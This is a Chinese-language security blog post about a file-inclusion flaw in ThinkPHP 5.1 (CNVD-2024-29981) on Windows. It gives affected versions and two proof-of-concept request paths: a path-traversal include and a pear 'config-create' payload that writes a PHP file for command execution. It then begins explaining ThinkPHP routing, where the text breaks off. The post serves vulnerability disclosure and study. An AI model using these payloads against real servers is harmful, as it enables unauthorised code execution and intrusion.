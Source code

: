 #  Thinkphp5.1.0-Thinkphp5.1. 文件包含漏洞（CNVD-2024-29981）   
 三十的安全屋   2024-09-26 09:07  
  
声明：请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。  
<table><tbody><tr><td style="word-break: break-all;" width="558" valign="top"><h1 style=""><span style="color: rgb(255, 76, 65);" data-darkreader-inline-color=""><span style="font-family: 宋体;font-variant: normal;text-transform: none;">Thinkphp5.1.0-Thinkphp5.1.*文件包含漏洞 (CNVD-2024-29981)</span>
  </span></h1><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65);" data-darkreader-inline-color="">time 4.24</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65);" data-darkreader-inline-color="">测试版本：thinkphp 5.1.41</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65);" data-darkreader-inline-color="">php: 7.3.4</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65);" data-darkreader-inline-color="">影响范围：thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65);" data-darkreader-inline-color="">漏洞利用poc: index.php?s=..\..\你要包含的路径/index/index</span></p><p style="margin-top:15.6pt;mso-para-margin-top:1.0gd;margin-bottom:2.5pt;text-align:left;margin-left:0.0pt;line-height:150%;"><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65);" data-darkreader-inline-color="">pear进行命令执行poc :</span></p><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;font-weight: normal;font-style: normal;color: rgb(255, 76, 65);" data-darkreader-inline-color="">/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&amp;+config-create+/+1.php</span><span style="font-size: 11pt;font-family: 宋体;font-variant: normal;text-transform: none;color: rgb(0, 0, 0);font-weight: normal;font-style: normal;" data-darkreader-inline-color=""></span></td></tr></tbody></table>#   
  
  
  
  
调用堆栈：  
      
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UhkxNXNt9yaZW6O66FubWOQkMS8PxVznZrnoaicQOrrHKatpYjKwbFc4ic6pcNNLB6Dm9vAHdhdF1OScibDX2Kenw/640?wx_fmt=png "")  
  
  
#   
# 一.Thinkphp文件包含:    
  
  
在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如：  
  
  
  
http://127.0.0.1/index.php/index/index/hello  
  
